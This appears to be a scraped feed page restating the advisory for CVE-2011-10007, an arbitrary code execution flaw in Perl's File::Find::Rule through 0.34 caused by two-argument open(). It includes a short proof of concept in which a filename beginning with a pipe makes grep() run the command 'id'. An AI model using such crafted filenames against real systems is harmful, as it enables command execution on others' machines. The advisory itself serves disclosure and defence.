 ```yaml
---
title: CVE-2011-10007
date: 2025-6-5
lien: "https://cvefeed.io/vuln/detail/CVE-2011-10007"
categories:
  - cve
---
```


CVE ID : CVE-2011-10007

Published :  June 5
2025
12:15 p.m. | 5 hours
13 minutes ago

Description : File::Find::Rule through 0.34 for Perl is vulnerable to Arbitrary Code Execution when `grep()` encounters a crafted filename.

A file handle is opened with the 2 argument form of `open()` allowing an attacker controlled filename to provide the MODE parameter to `open()`
turning the filename into a command to be executed.

Example:

$ mkdir /tmp/poc; echo > "/tmp/poc/|id"
$ perl -MFile::Find::Rule \
    -E 'File::Find::Rule->grep("foo")->in("/tmp/poc")'
uid=1000(user) gid=1000(user) groups=1000(user)
100(users)

Severity: 8.8 | HIGH

Visit the link for more details
such as CVSS details
affected products
timeline
and more...
